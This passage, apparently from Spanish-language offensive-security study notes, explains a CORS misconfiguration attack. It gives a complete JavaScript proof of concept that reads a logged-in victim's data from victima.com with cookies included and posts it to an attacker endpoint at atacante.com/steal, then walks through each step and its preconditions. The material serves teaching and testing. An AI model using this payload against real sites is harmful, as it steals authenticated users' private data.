 **Escenario:** Una víctima está autenticada en `https://victima.com`. El endpoint `https://victima.com/api/user-info` devuelve información sensible del usuario y tiene una configuración CORS insegura que refleja el `Origin` y permite credenciales.

**Código malicioso en **`<strong class="font-bold">https://atacante.com/exploit.html</strong>`**:**

Copiar

```
<script>
  fetch("https://victima.com/api/user-info", {
   method: "GET",
   credentials: "include" // Importante: envía cookies de sesión de la víctima para victima.com
  })
  .then(response => response.text()) // O response.json() si es JSON
  .then(data => {
 // Enviar los datos robados al servidor del atacante
   fetch("https://atacante.com/steal", {
    method: "POST",
      headers: {
        'Content-Type': 'application/json' // o text/plain
      },
      body: JSON.stringify({leakedData: data}) // o solo 'data' si es texto
    });
  })
  .catch(error => console.error('Error en la explotación CORS:', error));
</script>
```

**¿Qué pasa aquí?**

1. La víctima visita `https://atacante.com/exploit.html`.
2. El script en la página del atacante hace una petición `fetch` a `https://victima.com/api/user-info`.
3. Debido a `credentials: "include"`, el navegador de la víctima adjunta automáticamente las cookies de sesión válidas para `victima.com`.
4. El servidor de `victima.com`, debido a su mala configuración CORS (reflejando `Origin: https://atacante.com` en `Access-Control-Allow-Origin` y enviando `Access-Control-Allow-Credentials: true`), permite la petición.
5. El script en `atacante.com` recibe la respuesta con los datos sensibles de la víctima.
6. El script luego envía estos datos robados a un endpoint controlado por el atacante (`https://atacante.com/steal`).

**Requisitos para la Explotación Exitosa:**

1. La víctima debe estar autenticada en `victima.com` (tener una sesión activa).
2. `victima.com/api/user-info` (o el endpoint objetivo) debe devolver `Access-Control-Allow-Credentials: true`.
3. `victima.com/api/user-info` debe devolver un `Access-Control-Allow-Origin` que valide el origen del atacante (e.g., lo refleja, o la validación es defectuosa).

### [](https://notes.theoffsecgirl.com/04-explotacion-web/04a-control-de-acceso/cors#tecnicas-de-descubrimiento-y-pruebas)
